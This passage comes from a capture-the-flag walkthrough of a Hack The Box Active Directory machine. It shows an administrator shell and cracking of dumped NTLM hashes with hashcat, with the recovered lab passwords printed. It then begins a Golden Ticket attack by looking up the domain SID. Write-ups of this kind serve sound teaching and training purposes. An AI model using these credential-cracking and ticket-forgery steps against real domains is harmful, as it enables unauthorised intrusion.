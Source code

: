 ```
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
htb\administrator
```
	- We grab the root flag

-------
--------
## Extras
- Ippsec video had a lot of extra content which I will add here
## Cracking all hashes
- We attempt to crack all hashes
	```bash
vi hashes # Copy hashes from secrets dump here
cat hashes| grep ::: | awk -F: '{print $1":"$4}' > hashntlm
hashcat -m 1000 --user hashntlm /usr/share/wordlists/rockyou.txt
hashcat -m 1000 --user hashntlm --show
---OUTPUT---
Guest:31d6cfe0d16ae931b73c59d7e0c089c0:
DefaultAccount:31d6cfe0d16ae931b73c59d7e0c089c0:
htb.local\$331000-VK4ADACQNUCA:31d6cfe0d16ae931b73c59d7e0c089c0:
htb.local\SM_2c8eef0a09b545acb:31d6cfe0d16ae931b73c59d7e0c089c0:
htb.local\SM_ca8c2ed5bdab4dc9b:31d6cfe0d16ae931b73c59d7e0c089c0:
htb.local\SM_75a538d3025e4db9a:31d6cfe0d16ae931b73c59d7e0c089c0:
htb.local\SM_681f53d4942840e18:31d6cfe0d16ae931b73c59d7e0c089c0:
htb.local\SM_1b41c9286325456bb:31d6cfe0d16ae931b73c59d7e0c089c0:
htb.local\SM_9b69f1b9d2cc45549:31d6cfe0d16ae931b73c59d7e0c089c0:
htb.local\SM_7c96b981967141ebb:31d6cfe0d16ae931b73c59d7e0c089c0:
htb.local\SM_c75ee099d0a64c91b:31d6cfe0d16ae931b73c59d7e0c089c0:
htb.local\SM_1ffab36a2f5f479cb:31d6cfe0d16ae931b73c59d7e0c089c0:
htb.local\svc-alfresco:9248997e4ef68ca2bb47ae4e6f128668:s3rvice
htb.local\santi:483d4c70248510d8e0acb6066cd89072:plokmijnuhbe 
```
	- 31d... is blank pwd
	- Note that it won't work without `--user` flag as the hash file incudes `username:hash`
## Golden Ticket (Krbtgt)
- Among the hashes we also have krbtgt hash.
	- We can try to exploit Golden Ticket attack
		```bash
whoami /user
--OR--
(Get-ADDomain).DomainSID
--OR--
Get-ADDomain htb.local

---OUTPUT-1---
USER INFORMATION
----------------

User Name        SID
================ =============================================
htb\svc-alfresco S-1-5-21-3072663084-364016917-1341370565-1147

---OUTPUT-2---
BinaryLength AccountDomainSid                         Value
------------ ----------------                         -----
          24 S-1-5-21-3072663084-364016917-1341370565 S-1-5-21-3072663084-364016917-1341370565

---OUTPUT-3---
AllowedDNSSuffixes                 : {}
ChildDomains                       : {}
ComputersContainer                 : CN=Computers,DC=htb,DC=local
```
